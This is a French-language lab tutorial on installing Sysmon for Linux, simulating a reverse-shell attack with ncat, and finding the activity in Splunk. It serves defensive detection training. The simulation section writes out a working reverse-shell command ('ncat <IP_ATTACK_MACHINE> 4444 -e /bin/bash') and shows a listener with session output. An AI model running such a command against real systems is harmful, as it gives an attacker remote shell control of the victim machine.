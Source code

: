 # Surveillance et enquête sur l'exécution de processus suspects

- L’installation de Sysmon pour Linux avec une configuration XML avancée pour détecter plusieurs techniques MITRE ATT&CK.

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

#### Installation de Sysmon for Linux

```sh
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

sudo apt-get update
sudo apt-get install sysmonforlinux
```

## Configuration XML avancée

#### Créer un fichier de configuration

```sh
nano sysmon-config.xml
```

#### Puis coller le contenu XML suivant (extrait optimisé et indenté proprement) :

- [Base de configuration recommandée : MSTIC Sysmon Config](https://github.com/microsoft/MSTIC-Sysmon/blob/main/linux/configs/main.xml)

#### Lancer Sysmon avec la configuration

```sh
sysmon -i sysmon-config.xml
```

#### Vérifier que Sysmon fonctionne

```sh
sudo systemctl restart sysmon
sudo systemctl status sysmon
```

## Simuler une attaque - Reverse Shell avec ncat

#### Sur la machine d’attaque

```sh
root@attack:~# apt install ncat net-tools -y
root@attack:~# ncat -lnvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.129.166.
Ncat: Connection from 192.168.129.166:33790.
ls
packages-microsoft-prod.deb
snap
splunkforwarder-9.4.3-237ebbd22314-linux-amd64.deb
sysmon-config.xml
pwd
/root
```

#### Sur la machine compromise (victime) :

```sh
apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Vérification de la connexion :

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analyse dans Splunk (Search & Reporting)

> `Requêtes dans Search & Reporting`

- Affiche tous les logs liés à Sysmon
- Filtre sur les événements identifiés comme techniques de type Command.
- Recherche spécifique d’utilisation de ncat.

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command ncat
```

![Enterprise](/Splunk_Ubuntu/assets/splunk_linux_11.png)
